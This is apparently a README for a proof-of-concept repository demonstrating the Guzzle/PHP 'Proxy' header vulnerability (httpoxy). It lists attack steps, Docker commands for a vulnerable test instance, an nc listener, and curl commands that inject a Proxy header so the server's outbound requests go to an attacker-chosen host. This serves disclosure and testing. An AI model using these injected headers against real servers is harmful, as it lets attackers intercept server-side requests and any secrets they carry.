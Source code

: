 # Guzzle FPM Proxy Vulnerability

Some command-line HTTP clients support a set of environment variables to configure a proxy. These
are of the form `<protocol>_PROXY`; `HTTP_PROXY` is particularly noteworthy.

Separately, PHP takes user-supplied headers, and sets them as `HTTP_*` in the `$_SERVER` autoglobal.

## Steps

This is how the vulnerability works:

1. Do the usual PHP thing of exposing user-supplied headers as `$_SERVER['HTTP_*']`
2. Be using Guzzle from FPM or Apache (haven't tested with other SAPIs, assume some others possibly vulnerable too)
3. As an HTTP client, inject a `Proxy: my-malicious-service` header to any request made
4. Watch as Guzzle helpfully sends the request to the malicious proxy, supplied by the client

## Using this repo

Here is how you can see it in action:

1. Clean up running instances from the last run:

    ```sh
    docker stop fpm-test-instance > /dev/null 2>&1
    docker rm   fpm-test-instance > /dev/null 2>&1
    ```

2. Start a new test instance of the vulnerable script:

    ```sh
    docker build -t fpm-guzzle-proxy .
    docker run -d -p 80:80 --name fpm-test-instance fpm-guzzle-proxy
    ```

3. Start some sort of capturing proxy, to test whether the request comes through. Note that things interpreting HTTP_PROXY
    don't seem to care about the path portion of the URL (so, requestb.in won't work). I have had success with `ngrok tcp 9999`,
    but it requires a paid account. Another one that works well for local testing is:

    `nc -l 12345`

4. Then, fire a request at your vulnerable script, and watch the data arrive at the user-specified proxy:

    ```sh
    curl -H 'Proxy: 0.tcp.ngrok.io:12345' 127.0.0.1
    ```

    or

    ```sh
    curl -H 'Proxy: 172.17.0.1:12345' 127.0.0.1
    ```

    etc.


